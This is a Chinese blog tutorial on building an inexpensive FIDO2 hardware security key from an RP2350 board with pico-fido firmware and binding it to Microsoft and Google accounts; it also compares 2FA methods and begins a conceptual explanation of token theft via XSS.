



## 前言

> [!IMPORTANT] 参考资料：
>  
> 1. [30 元低成本自制开源版 Yubikey (支持 FIDO2 的硬件安全密钥)](https://blog.lyc8503.net/post/diy-fido-key/)
>  
> 2. [超便宜的物理密钥 开源版的YubiKey • Zinc233's Blog](https://blog.zinc233.top/blog/pico-key)
>  
> 3. [自制 FIDO2 安全密钥，平替Yubikey - Muse](https://blog.pepaper.org/2025/03/%e8%87%aa%e5%88%b6%e5%85%bc%e5%ae%b9-yubikey-%e7%9a%84-fido2-%e7%a1%ac%e4%bb%b6%e5%ae%89%e5%85%a8%e5%af%86%e9%92%a5/)
>  
> 4. [Yubikey 安全密钥折腾记（2）：使用入门 - 博客](https://skywt.cn/blog/yubikey-intro)
>  
> 5. [30元成本制作一个实物安全密匙并兼容YubiKey - 开发调优 - LINUX DO](https://linux.do/t/topic/580783)
>  
> 6. [32元制作一个超好玩的物理安全密钥Pico Keys - 淘气KO](https://www.5yyx.com/?p=399)
>  
> 7. [Pico FIDO Picokeys 30元手搓安全密钥完全教程 - yimc | Blog](https://blog.tianyimc.com/2026/03/02/guide-picokey/)
>  
> 8. [守护数字世界的另一把钥匙：安全密钥详解 - 少数派](https://sspai.com/post/78479)
>  
> 本文章撰写前有对之前的文章作阅读参考，感谢以上大佬的博客与帖子开源！🙏🙏🙏

最近，我在 Bilibili 刷视频的时候，偶然发现许多 Minecraft 玩家分享了账号被盗的案例，这让我有些许恐慌：是啊，Microsoft Account （以下称“微软账号”）盗号现象居然越发频繁了。黑客以用户们意料之外的方式，利用与某些官网站点相似度极高的钓鱼网站，让用户无意间泄露自己的 Token/Cookie，从而盗取微软账号。

[grid]


[/grid]

> [!WARNING] 注意！
>  
> 代表性案例来源：
>  
>  - [图一中的视频](https://www.bilibili.com/video/BV1c6XTB9EVN) 
>  
>  - [图二中的评论](https://www.bilibili.com/video/BV1gvobB3EP8/?comment_on=1&comment_root_id=297098693505)

相信阅读我的博客的读者，会有不少人都会给自己的微软账号设置了 2FA 验证（Microsoft Authenticator 通知验证，一次性代码等）与无密码账号，确实这样会提高账号的一定的安全性。实则不然，黑客通常使用刚刚提到的钓鱼网站骗取你使用 2FA 客户端之后的登录状态（也就是 Token），从而不经过传统的撞库盗密码的方式得到你账号的控制权。

就在我看到这些坏消息焦头烂额之际，那个图一视频下的一个评论意外引起我的好奇：天下居然有这种何等宝物！只需把登录凭证存储在这么一个小玩意里面，只有在电脑插上了它才允许登录。这简直可以让黑客无机可乘啊！(bushi)


没错！这就是这篇文章所要带给大家展示的一个非常厉害的计算机安全技术：`安全密钥`！(也称“`硬件密钥`”、`物理密钥`、`实体密钥`等)


有了它，你在互联网上的账号将完全属于你自己，没有拥有你的安全密钥的人都无法登录你的账号！:spoiler[~~(除非有人闯入你家偷走你的硬件安全密钥，并且知道你的 PIN 码)~~]这将账号安全提高到了最高层次。

## P1: 「安全密钥」是啥？

其实它的官方名称是 __安全令牌__ (英文名: __Security Token__ )，它问世于 1980 年代，让我们引入 Wikipedia 的解释：

> A security token is a peripheral device used to gain access to an electronically restricted resource. The token is used in addition to, or in place of, a password.[1] Examples of security tokens include wireless key cards used to open locked doors, a banking token used as a digital authenticator for signing in to online banking, or signing transactions such as wire transfers.
> 
> 安全令牌是一种外设设备 ，用于访问电子受限资源。该令牌可作为密码的补充或替代使用 。 [1] 安全令牌的例子包括用于开锁门的无线钥匙卡 、用于登录网上银行的数字认证器、签署如电汇等交易的令牌。
>
> Security tokens can be used to store information such as passwords, cryptographic keys used to generate digital signatures, or biometric data (such as fingerprints). Some designs incorporate tamper resistant packaging, while others may include small keypads to allow entry of a PIN or a simple button to start a generation routine with some display capability to show a generated key number. Connected tokens utilize a variety of interfaces including USB, near-field communication (NFC), radio-frequency identification (RFID), or Bluetooth. Some tokens have audio capabilities designed for those who are vision-impaired.
> 
> 安全令牌可用于存储密码、用于生成数字签名的密码密钥或生物识别数据（如指纹 ）等信息。有些设计采用防篡改包装，另一些则可能包含小键盘以便输入 PIN 码，或通过简单的按钮启动生成程序，并具备显示显示生成密钥号的功能。连接的令牌使用多种接口，包括 USB 接口、 近场通信 （NFC）、 射频识别 （RFID）或蓝牙 。部分代币具备专为视障人士设计的音频功能。
> 
> ——[安全令牌 - 维基百科，自由的百科全书](https://en.wikipedia.org/wiki/Security_token)

当然，上面的官方解释是在传统的银行安全领域下定义的。安全令牌有很多种分类——在计算机安全领域中，它是指 __连接令牌__ ( __Connected tokens__ )：连接型令牌必须与用户进行身份验证的计算机进行物理连接。此类令牌在建立物理连接后会自动将身份验证信息传输到客户端计算机，无需用户手动输入身份验证信息。但是，要使用连接型令牌，必须安装相应的输入设备。最常见的物理令牌类型是智能卡和 USB 令牌（也称为 _安全密钥_ ），分别需要智能卡读卡器和 USB 端口。由开放规范组织 [FIDO 联盟](https://fidoalliance.org/?lang=zh-hans) 支持的 [FIDO2](https://fidoalliance.org/specifications/?lang=zh-hans) 令牌越来越受到消费者的欢迎，自 2015 年以来，主流浏览器开始支持 FIDO2 令牌，并且许多热门网站和社交媒体网站也支持 FIDO2 令牌。:spoiler[某个小而美软件以及某个企鹅图标的社交软件不支持，这里我不做评价（（]

虽然说它在计算机发展史上也是比较 ~~老资历~~ 关键的进程了，但它核心在于「**安全**」啊！至今貌似没什么人敢破解(存疑?)，:spoiler[因为敢破解的应该都吃了紫菜蛋花汤没有菜花汤了]基本都是银行或密钥提供商自家漏洞导致的大小规模的泄露事件会引起安全令牌的失效。而今这类事件发生的概率小到极点:spoiler[Ｍ＄这个草台班子咖喱味互联网公司就不好说了（（（]，大家可以放心使用。



<div class="text-center"><font color="#717988" size="2">Passkey 简单原理图</font></div>

与之相比，FIDO 联盟与 FIDO2 则是一个比较新生代的技术协议——该联盟于 2012 年建立，与 W3C 联合开发的 FIDO2 大规模推广在 2019 年开始进行。如今，FIDO2 早已正式成为全球通用的 Web 认证标准。科技巨头如微软、谷歌、苹果等在其生态系统中全面支持该标准，用户不仅可以使用物理安全密钥，还可以用手机或电脑自带的指纹识别、人脸识别直接登录支持 FIDO2 的网站。

除了这些比较通用的加密协议，我们日常生活中见到的安全密钥大部分都是和私有加密协议，比如软件的加密狗、银行给的 U 盾、财务税控盘、动态口令卡或是动态密码器等。当然，受限于文章篇幅，我也不打算对这类产品详细展开，大家只要类似的产品其实也是安全密钥就好。

需要注意的是，如果你弄丢了实体密钥，并且账号登录选项只配置了通行密钥，这会将失去你账号的授权，很难再登上去，所以 __请务必保管好你的密钥！！！__

## P2: 为什么我们要选择「安全密钥」？

想必大家可能觉得既然有了短信验证码，或是应用内二维码，或是有了基于时间的一次性密码，似乎就没必要用安全密钥了。但这个想法实际上并不对，不然银行也没必要给每一个打开网银的用户配上一个 U 盾了。


让我们回顾一下身份认证发展史，就可以看到安全专家们为了保障用户与企业的安全可谓是殚精竭虑。

### 一、短信 SMS 验证

短信 SMS 作为目前广泛用于双重认证，甚至在不少服务中是登录时的唯一凭证。但作为 1986 年就定义的协议，时至今日 **SMS 早就已经落伍了**！关于 SMS 通信通道不安全的研究已经有很多了，利用 GSM 劫持和短信嗅探进行电信诈骗的案例也比比皆是。所以它虽然方便，但从安全的角度来看短信确实不适合作为首要（甚至是唯一的）双重认证的手段。

### 二、基于2FA的验证器通知验证(MFA)

> [!NOTE] 敬请参阅：
> [Microsoft Authenticator 身份验证方法 - Microsoft Entra ID | Microsoft Learn](https://learn.microsoft.com/zh-cn/entra/identity/authentication/concept-authentication-authenticator-app)

我们以 Microsoft Authenticator 为例：

使用 Microsoft Authenticator 设置双因素身份验证后，每次尝试在线访问帐户时，您都会在移动设备上收到通知或需要提供以验证身份的验证码。 这增加了额外的安全层，因为只有您才能访问您的移动设备。 请记住保持 Microsoft Authenticator 应用程序更新，并使用 PIN 码或面部识别来保护您的移动设备，以防止未经授权的访问。

### 三、TOTP协议

不少网站和服务都会采用基于时间的一次性密码 TOTP，TOTP 确实要比短信来得安全得多。首先，与传统的静态密码相比，TOTP 动态生成的一次性密码更加安全，因为它只在特定的时间段内有效，并且生成过程基于共享的密钥和相同的时间，而共享的密钥只会在初次设置时进行交换。


其次，实现 TOTP 技术因为不需要专门的硬件，所以实现成本很低，用户使用时只需要安装一个支持 TOTP 的软件即可，无论是智能手机、可穿戴设备或是电脑上都有对应的软件可以选择。最后，TOTP 对于网站和服务来说也非常便于接入到身份验证系统中，因此 TOTP 支持得非常广泛。



<div class="text-center"><font color="#717988" size="2">TOTP 工作原理图</font></div>

但 TOTP 也有自己的局限，TOTP 最大的问题就是不能抵御中间人攻击，在 MitM 攻击中，攻击者会在通信的两端之间插入自己的设备，以拦截、篡改和窃取数据。如果用户正在遭受 MitM 攻击，攻击者不仅会伪造一个有用户名和密码的登陆框，还会伪造一个看起来像身份验证令牌的页面，要求用户输入他们的令牌信息。然后，攻击者可以使用这些信息欺骗真正的身份验证服务器，并成功访问用户的帐户。

除了不能抵御 MitM，使用 TOTP 的步骤我也觉得有点麻烦。首先就是输入麻烦，如果用密码管理工具快速填充密码的话，往往还需要单独打开一个 TOTP 的软件手动输入那一串验证码；如果把 TOTP 同样保存到那个密码管理工具，不免有把「鸡蛋都放一个篮子里」的嫌疑。

这时候随着银行卡一起给我的银行 U 盾给了我新的灵感，在大额转账的时候只需要点一下 U 盾上的按钮就可以完成身份验证，可以说是非常方便。而和 U 盾类似的安全密钥自然就成为了我替代传统 TOTP 的方式。

### 四、物理安全密钥

用安全密钥存储和生成一次性密码的方法也被称为 U2F（通用第二因素），基于安全密钥「软件只能写入密钥但不能读取密钥」的特性， U2F 也能有效地抵御 MItM 攻击。



<div class="text-center"><font color="#717988" size="2">安全密钥基本原理</font></div>

当我们使用安全密钥进行认证的时候，网页会首先发送一个「挑战（challenge）」给安全密钥，安全密钥会根据内部存储的私钥（可以理解成信箱的钥匙），解开这个「挑战（challenge）」并把对应的结果返回给服务器。无论是谁都看不到放在安全密钥的私钥，而服务器上只有正确的公钥加密的信息才可以被私钥解锁，因为投递人只有知道那个信箱是你才能把信寄给你。

除了更安全，安全密钥自然也有着使用方便的特点，在电脑平台上直接插入到 USB 接口中就可以让其他程序调用，身份验证时也只需要额外进行一次触摸即可。至于在移动上，除了插入接口进行认证，也可以在支持 NFC 的设备上扫描 NFC 进行验证。整个流程非常简单，就和使用银行 U 盾一样。


前面我们也提到过，安全密钥还支持存储多种不同的加密类型，如果网站或者服务不支持 U2F 的话，不少安全密钥，比如 Yubikey 旗下的产品也支持存储支持更为广泛的 TOTP，填写时也只需要简单触摸一下安全密钥就可以自动填充。另外一些加密类型也可以在特定的场景下发挥作用，比如 PIV 智能卡可以用于替代门禁卡，OpenPGP 则是加密文件、邮件的常用方式。

安全密钥小巧的体型也能算是它的一个优点，携带会非常方便；不过这其实也是一个缺点，小巧的体型也意味着容易遗失。如果设备丢失，不仅需要需要重新配置身份验证过程，还有可能被身份认证挡在门外。所以如果要使用安全密钥除了 FIDO2 以外的加密类型的话，我的建议是多准备一个安全密钥进行备份；而 FIDO2 作为实现通信密钥的基石，可以使用身边的手机和其他支持的软件额外进行设置。

安全密钥虽然有着众多的加密类型，但也不是万能的，如果网站只愿意使用 SMS 或者私有认证方式进行两步认证的方式的话，安全密钥自然也帮不上忙；安全密钥的使用成本也不低，毕竟一次就要买 2 个，如果丢失的话也需要再次入手，对于大部分人来说确实不那么值得。

不过，目前来看安全密钥也算是解决了我此前使用软件 TOTP 时的种种不满，顺便还让一部分账户变得更为安全了。

## P3: 硬件挑选

既然你已经知道硬件密钥是什么了，那么我们就来看看目前互联网上主流的安全密钥方案：

### 一、YubiKey

[Yubico](https://www.yubico.com/) 是一家美国的公司，是 YubiKey 的制造商。[YubiKey](https://www.yubico.com/product/yubikey-5-series/yubikey-5c-nfc/) 是这家公司生产的硬件安全密钥。这个东西有点像以前很多银行要用的「U 盾」，是硬件层面保障安全性的一个东西。

2023 年， Cloudflare 推出的 [Yubikey 促销](https://blog.cloudflare.com/making-phishing-defense-seamless-cloudflare-yubico/) 掀起了一波小小的硬件密钥热潮, 很多人都通过国际代购，转运低价购入了 Yubikey. 不过转眼过去了两年, 之后再没有过类似的优惠, 国内现货的价格也一直居高不下 (目前为 ~500RMB).


看到这个产品，我想说的一句话是：__这太TM贵了！__ 这样的价格对我一个 ~~安卓人~~ 学生来说是承担不起的（（。如果这样的小玩意弄丢了，这将是一个极大的损失（同时账号也丢了）！

### 二、OpenSK

由谷歌开源的 [OpenSK](https://github.com/google/OpenSK) 使用的是 nRF52840 方案，淘宝上可以搜索到 nRF52840-MDK USB Dongle 相关硬件, 但硬件价格在 100-240RMB 之间，成本也巨大。

::github{repo="google/OpenSK"}

### 三、CanoKeys

[CanoKeys](https://docs.canokeys.org/zh-hans/) 虽然有 nRF 和 STM32 的方案, 但官方已经表明 __任何接触到设备的人可以获取明文密钥__ ！不适合日用。官方在淘宝有售卖使用 HED CIU98320B 的安全版本 CanoKey Pigeon 和 CanoKey Canary.

### 四、Picokey

> [!IMPORTANT] 提醒！
> 由于项目作者 [Polhenarejos](https://github.com/polhenarejos) 在未告知用户的情况下肆意对项目改变策略，进行商业化转变，引起社区部分资深用户的愤怒，详见 [Issues | \#216 Pico Commissioner is unavailable - GitHub • polhenarejoys/pico-fido](https://github.com/polhenarejos/pico-fido/issues/216)。建议使用 [社区提供的固件项目](https://github.com/librekeys/pico-fido2)

以上三个方案成本都非常高昂，至少都在 100 RMB 以上。还好前人们都作总结了，都推荐基于 Rasbperry Pi RP2040/RP2350 或 ESP32S3 开发板的 [Pico Fido2 项目](https://github.com/polhenarejos/pico-fido2)，其中树莓派的芯片开发板选择多，流行度高，在大陆易于买到，且价格很低 (约 30RMB)。


::github{repo="librekeys/pico-fido2"}

而恰好, 本次的 Pico Keys 项目就用到了`RP2350`这款芯片的`Secure Boot`和`OTP 功能`用于保护保存的密钥在物理接触时不被提取或复制, 所以我更相信它的安全性。

### 硬件购买

`RP2350` 只是芯片型号，市面上有很多搭载该芯片的开发板，经前人们推荐我挑选了`微雪Waveshare`的`RP2350-One`，这款芯片可以非常轻松的在淘宝上以 30 元左右的价格包邮买到。Pico Keys 还支持其他各式各样的开发板, 可以自行选择最容易购买到或者最便宜的。

[grid]


[/grid]

## P4: 刷入固件&配置

### 准备材料

1. Waveshare RP2350-One 开发板(其他开发板参考其他相对应的教程)

2. 在 Pico Fido2 项目下载下来的 UF2 固件([pico_fido_pico2-7.6.uf2](https://github.com/polhenarejos/pico-fido/releases/download/v7.6/pico_fido_pico2-7.6.uf2) 或者下载专用于微雪的FIDO2固件👉：[pico_fido_waveshare_rp2350_one-6.6.uf2](https://github.com/polhenarejos/pico-fido/releases/download/v6.6/pico_fido_waveshare_rp2350_one-6.6.uf2))

3. 一台搭载了 Windows 10 22H2 或 Windows 11 24H2 及以上的 PC/笔记本 (Linux 任意主流发行版任意内核版本也行)，且确保没有附带任何不安全的环境（比如被入侵木马）

### Step1: 刷写固件

详细步骤：

 - 按住开发板上的`BOOT`键插入电脑，将会在资源管理器中看到它识别成一个U盘
 - 把下载好的UF2固件拖入/复制到U盘

做完过后，它会自动刷入并重启, 全程丝滑无需任何驱动或专有工具。接下来你需要拔出开发板并等待1分钟，以便后续操作顺利。

### Step2: 设备配置

> [!CAUTION] 警告
> 这个步骤里边参考资料给出的`Pico Comissioner`在线配置工具因商业策略改变，已被作者宣布下线并替换成付费订阅的`Picokey App`，所以我将改成自己摸索到的免费方案分享出来
> 消息来源：[Pico Commissioner 网页已经被开发者正式下线，换成了收费软件 - V2EX](https://www.v2ex.com/t/1183853)

目前还有现存的在线版[Pico Commissioner](https://sst311212.github.io/pico-fido2/)供大家使用，操作方式与原先的基本相同。

或者使用[Picoforge](https://github.com/librekeys/picoforge)项目进行本地配置，

::github{repo="librekeys/picoforge"}

#### 在线版具体核心步骤：

1. 插入开发板，在WebUSB页面点击`Connect`，浏览器弹出提示后点确认连接，如果能正常显示信息则连接成功

2. 点击`PHY`界面，跟着设置如下：
    - 设置 Vendor 为: Yubikey5
    - VID & PID 保持默认 ~~(其实在线版这里根本改不了)~~
    - Product Name 设置为: `Yubico Yubikey`
    - 按钮超时时间可自己设置，这里设置为`30`秒
    - LED GPIO 引脚(Pin)设置为`16`，亮度设置为`1-7`之间，Options勾选`Dimmable`和`Steady`，LED驱动选择`WS2812`或`WS2812_Swap`

3. 设置完后，点击`Commission`按钮应用设置，记得为密钥设置PIN码并记住。


#### Picoforge 配置教程核心步骤：

1. 插入开发板，点击左侧`Configuration`进入界面，并在左下角点击`Refresh`，确认设备状态显示为`Online`并且`Overview`界面信息显示正常后开始操作

2. 跟着设置如下：
    - Identity 板块 Vendor Preset 选择`YubiKey 5 (1050:0407)`
    - Vendor ID 和 Product ID 保持默认(值分别为`1050`和`0407`)
    - Product Name 设置为: `Yubico Yubikey`
    - LED GPIO 引脚(Pin)设置为`16`，LED驱动选择`WS2812 (Neopixel)`，亮度设置为`1-7`之间，勾选`LED Dimmable`和`LED Steady Mode`
    - 按钮超时时间可自行设置
    - 开启`Power Cycle on Reset`

3. 设置完成后，点击`Apply Change`按钮应用设置，记得为密钥设置PIN码并记住。


> [!CAUTION] ⚠️警告！
> 如果你想为了安全起见，可以开启`Secure Boot`和`Secure Lock`，但是这样开启后只能刷入Picokey提供的官方固件，不能再进行二次开发，建议正式使用的时候再开启！
> 如果你又想 DIY 又想安全的话可以尝试[自签](https://github.com/polhenarejos/pico-fido/issues/106)。

### 测试密钥可用性

> [!IMPORTANT] 注意
> 如果你是第一次使用应该会提示你设置PIN码，如果在此之前就设置PIN码了只需输入之前设置的PIN码即可(忘了就白搭了~)

访问[Webauthn.io](https://webauthn.io/)，测试一下这把 DIY 密钥的功能，根据网站与浏览器的引导进行操作即可。

[grid]


[/grid]

## P5: 管理你的密钥

> [!CAUTION] 注意
> 如果你之前为密钥设置的 Product Name 不是“`Yubico Yubikey`”，Yubico Authenticator 将无法识别你的 USB 密钥设备。

访问`Yubico`官网下载[Yubico Authenticator](https://www.yubico.com/products/yubico-authenticator/)，支持PC与移动端，打开后插入密钥可以看到能成功识别。


[Android 平台](https://play.google.com/store/apps/details?id=com.yubico.yubioath)也有官方支持的客户端，但需手机/平板支持 OTG，并且识别功能正常(找个U盘插一插就能知道可不可以正常识别了，**但请你警惕 Bad USB！** )

在 Android 设备上识别到之后，一般来讲每当在浏览器发现有新的登录请求发出后会唤醒Yubico Authenticator，可以正常识别、使用。如果不能正常使用，问题应该出在Authn管理器上，一般来讲你的安卓、iOS都是可以用的（因为一般都做好了适配，且新版安卓可以自选Authn管理器），我目前的测试当中就 Via 浏览器是不能正常调用的，而Edge、Chrome与Firefox一起正常。


Yubico也提供官方 CLI 管理工具[Yubikey Manager](https://github.com/Yubico/yubikey-manager)，安装完在插入密钥后，使用`ykman`命令工具可以查询密钥状态。

::github{repo="Yubico/yubikey-manager"}

```powershell
PS C:\> ykman list
ykman list
YubiKey 5A (7.6.0) [OTP+FIDO+CCID] Serial: xxxxxxxx
PS C:\> ykman fido info
AAGUID:                 xxxxxxxx-xxxx-xxxx-xxxx-xxxxxxxxxxxx
PIN:                    8 attempt(s) remaining
Minimum PIN length:     4
Always Require UV:      On
Enterprise Attestation: Disabled
```

__需要注意的是__：默认情况下 PIN 只能尝试 8 次: 每尝试 3 次会临时 BLOCK 密钥, 需要重新插拔后才能继续尝试, 总计重试满 8 次后密钥永久被 BLOCK (俗称被ban掉了), 此时只能重置, 重置会丢失所有存储的密钥。(硬件本身还是可以继续正常使用的)

## P6: 将安全密钥绑定到你的互联网账号

以微软账号和 Google 账号为例：

### 微软账号 (Microsoft Account)

登录`account.live.com`，进入管理界面后点击侧边栏的`安全`选项，然后点击“管理登录方式”并进行安全验证


在这个界面中滑下来找到`添加另一种登录账户的方式。`，然后在“添加一种新的登录或验证方法”窗口中选择`人脸、指纹、PIN 或安全密钥`

[grid]


[/grid]

根据浏览器指引，会弹出新窗口引导你`选择保存密钥的位置`,这里选择`使用外部安全密钥`！


接着会唤醒本地的 Windows 安全中心并继续引导你绑定安全密钥，插入密钥后输入PIN码，在提示“触摸安全密钥”时按下开发板密钥上的`BOOT`键即可，如提示“为密钥设置名称”则成功绑定！最后根据微软的提示为新绑定的密钥设置名称！

[grid]


[/grid]

### Google 账号

登录`account.google.com`，进入管理界面后点击侧边栏的`安全性与登录`选项，然后点击“通行密钥和安全密钥”并进行安全验证


进入后，点击`创建通行密钥`


接下来的指引与微软账号配置密钥时相同，就是`选择存储在外部安全密钥-插入密钥-输入 PIN 码-触摸安全密钥`即可，最后提示如下图则为成功绑定，后续可以在谷歌密钥管理界面自己设定密钥名称。

[grid]


[/grid]

根据这波指引下来：__🎉恭喜你！你已成功进入安全密钥令牌的世界！🎉__ 您的账号安全性将几乎无人匹敌(哦是吗?)，大大降低了被盗号的风险与概率。

## P7: 其它小技巧

硬件密钥不仅仅只用作互联网账号凭证登录，也可以用于 SSH 私钥(参考 Lyc8503 的 Blog)，还支持 TOTP、PIV、OATH、OpenPGP 等验证协议，具体玩法留给大家自行探索了~

## P8: 为安全密钥定制保护外壳

咱们 DIY 定制的硬件密钥本质上也只是一个小小的 USB 单片机，仔细想想这样一个电路板裸露出来未免也不太好，还容易损坏。网络上目前的方案是热熔胶套上或者 3D 打印树脂外壳，这样就不用再担心使用过程中的电路板磨损与折坏了。

鄙人不会 3D 打印与建模，这里我推荐去[嘉立创3D打印服务](https://www.jlc-3dp.cn/)官网下单，图纸原型使用 Pintable 平台的 [Waveshare RP2040 One and RP2350 One case](http://printables.com/model/1129764-waveshare-rp2040-one-and-rp2350-one-case)，但是直接把图纸下载下来是不能直接提交到嘉立创平台去报价的，会报出一堆建模问题来，只好托人修改模型图纸直到通过嘉立创系统检测。

这里我将修改后图纸分享给大家，感谢某位不方便透露名字的大佬帮我修改外壳模型图纸！

> [!TIP] 网盘分享链接列表
> 全球分享链接：[适用于微雪RP2350-One的3D保护外壳图纸 - Google 云端硬盘](https://drive.google.com/drive/folders/144DZUFNJRase8agPh9k_35G4x_fnsSoA?usp=sharing)
> 
> 大陆可用的分享链接：[适用于微雪RP2350-One的3D保护外壳图纸_123云盘免登录下载不限速](https://1815647577.share.123865.com/123pan/IzpzVv-dAJlA?pwd=rcAi#) (提取码：rcAi)

由于我在嘉立创下单的外壳还在生产中，所以效果图是暂时无法给大家展现了，非常抱歉，后续到货了我会再补充上去的🙏。

## P9: 碎碎念&注意事项

你也许会发现，虽然说这篇文章我一直都在鼓吹安全密钥的好处，但我想说的是：其实它**仍然有一定的局限性**，这点我也在撰写当中用括号内短语进行表态。它貌似只能防得住登录请求时的盗号，防不了授权后的盗号情况。

这是什么意思呢？让我们先从它的**工作原理**入手。

### 安全密钥是如何工作的？

安全密钥通过USB或蓝牙与设备通信来工作，在使用安全密钥进行身份验证之前，必须验证正在使用的服务的兼容性，然后向服务注册密钥，然后可以使用该密钥和密码一起登录该服务。

当用户尝试登录支持安全密钥的服务时，系统会提示用户插入或点击安全密钥以验证身份。安全密钥依赖于公钥加密协议，如FIDO U2F和FIDO2，这些密钥超越了传统的身份验证方法，提供了更强的保护，防止网络钓鱼和凭证盗窃。

以下是安全密钥的**工作原理**：

 - **密钥对**：安全密钥会生成唯一的公钥和唯一的私钥，公钥存储在用户正在使用的在线服务中，而私钥存储在安全密钥的硬件芯片中。

 - **登录启动**：当登录支持安全密钥的服务时，需要像往常一样输入用户名和密码。

 - **询问-响应身份验证**：该服务会生成一个唯一的质询并将其发送到安全密钥，安全密钥使用其私钥对质询进行签名，并将签名的响应发送到服务。

 - **验证**：该服务使用存储在其系统中的公钥验证签名。如果它们匹配，则授予访问权限。

此过程消除了恶意拦截代码或破坏基于软件的身份验证器的风险，即使他们设法窃取了密码，也无法绕过计算机和服务安全密钥的物理存在和加密验证。

此外，我在另外一个哔站视频评论区看到了以下楼层，这引发了我极大的思索：

[grid]


[/grid]

省流：简单来说，黑客偷的不是你硬件密钥载体上的私钥，而是偷的**签名后的验证信息**，也就是存储在 Cookie 中的 Token 令牌。什么意思呢，就是你回家路上被小偷跟踪了，你用智能门锁用指纹开门进入你的大豪斯的时候，小偷在你没注意的瞬间飞入了你家里，然后偷走了你所有的钱。但是这种作案过程中，小偷不是复制了你的指纹，而是在你开门的刹那闯进去了，就这么简单粗暴！

### 黑客如何跨过安全密钥门槛盗取你的账号？

比较常见的攻击方式就两个：__CSRF攻击__ 和 __XSS攻击__

#### 1. XSS（跨站脚本攻击）—— 真正的 Cookie 盗取者

XSS 的本质是 __代码注入__。攻击者找到机会，在你信任的网站中注入了恶意脚本（通常是 JavaScript）。当你的浏览器执行这个脚本时，脚本就有了你在这个网站上的上下文权限。

